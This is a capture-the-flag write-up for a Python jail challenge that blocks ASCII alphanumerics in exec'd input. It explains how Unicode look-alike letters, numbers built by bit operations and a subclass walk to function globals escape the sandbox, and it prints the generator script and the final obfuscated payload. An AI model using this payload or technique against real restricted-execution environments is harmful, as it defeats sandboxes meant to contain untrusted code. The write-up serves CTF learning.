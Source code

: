 # python-jail-harder

## problem

see [./Dockerfile](./Dockerfile)

```py
#!/usr/bin/env python 

blacklist = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

security_check = lambda s: any(c in blacklist for c in s) or s.count('_') > 50

def main():
    while True: 
        cmds = input("> ")
        if security_check(cmds):
            print("nope.")
        else:
            exec(cmds, {'__builtins__': None}, {})
    

if __name__ == "__main__":
    main()
```

## solution

compared to the regular python-jail, this one fixes the vulnerability by using `or` instead of `and`

to bypass this, we can use non-ascii character (unicode) because they are not equal to any characters in the blacklist but still execute in `exec` as if they were ascii characters. 

so for example, `ᵖʳᵢⁿᵗ(1+2+3)` would execute the same as `print(1+2+3)` assuming builtins exists. there are different unicode symbols for all of the letters, uppercase and lowercase. 
the only issue is that the strings will evaluate differently (`"ᵖʳᵢⁿᵗ" != "print"` assuming builtins exists)

therefore, we can use list and dictionary indexes instead (dictionary can be indexed using `[].__class__(dictionary.values())` which returns a list of values in the same order). 

however, there is still the issue of getting numbers because there aren't any unicode symbols that i could find for numbers that work.
however, this can be done easily by using `[].__len__()` which is 0. keep in mind that `len([])` can't be possible because `len` is part of builtins, and builtins isn't in the global scope.

well, that's only the number 0. to get any other number, we can make use of the `~` operator and bit shifting. to get 1, we can do `-~[].__len__()`. this is equivalent to `-(~(0))`. the `~` operator flips all the bits (including sign bit) which causes 0 to become -1.
then, using the unary minus operator gets us 1 from 0. then, it is very easy to bit shift and use the or operator to get any desired number. 
in the payload below, i have `a` as one to reduce the amount of underscores necessary (exec means multiple statements can be used), and this helps bypass the limit of 50 underscores max.

the final payload looked something like this:

```py
m = {}
for _ in range(32, 0x200ff):
    letter = chr(_)
    try:
        eval(letter)
    except NameError as e:
        m[letter] = str(e).split("'")[1]
    except SyntaxError:
        pass
    except UnicodeEncodeError:
        pass

blocked = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

m2 = {}
for k in m:
    if m[k] in blocked and m[k] != k:
        if m[k] not in m2:
            m2[m[k]] = k

m2["m"] = "ᵐ"

payload = """
a=-~[].__len__()
b=[].__class__(().__class__.__base__.__subclasses__()[-(a+a+a+a+a)].__init__.__globals__.values())
b[-(a<<(a+a+a+a+a+a+a+a)|a<<(a+a+a+a+a+a)|a<<(a+a+a+a)|a<<(a+a))](b[a][a<<(a+a+a)|(a+a)]+b[a][-((a<<(a+a+a+a+a))-a-a-a-a-a-a)])
""".rstrip("\n").lstrip("\n").replace("\n", ";")
total = ""
for letter in payload:
    if letter in blocked:
        total += m2[letter]
    else:
        total += letter
print(total)
```

this printed the following payload: 
```
ª=-~[].__ˡᵉⁿ__();ᵇ=[].__ᶜˡªſſ__(().__ᶜˡªſſ__.__ᵇªſᵉ__.__ſᵘᵇᶜˡªſſᵉſ__()[-(ª+ª+ª+ª+ª)].__ᵢⁿᵢᵗ__.__ᵍˡºᵇªˡſ__.ᵛªˡᵘᵉſ());ᵇ[-(ª<<(ª+ª+ª+ª+ª+ª+ª+ª)|ª<<(ª+ª+ª+ª+ª+ª)|ª<<(ª+ª+ª+ª)|ª<<(ª+ª))](ᵇ[ª][ª<<(ª+ª+ª)|(ª+ª)]+ᵇ[ª][-((ª<<(ª+ª+ª+ª+ª))-ª-ª-ª-ª-ª-ª)])
```

what also helped was setting up a docker container with the correct environment but slightly modified to make `"builtins": None` into `"builtins": {"print": print}` which allowed for printing for debugging purposes. 
also removing the security check temporarily made the process much easier
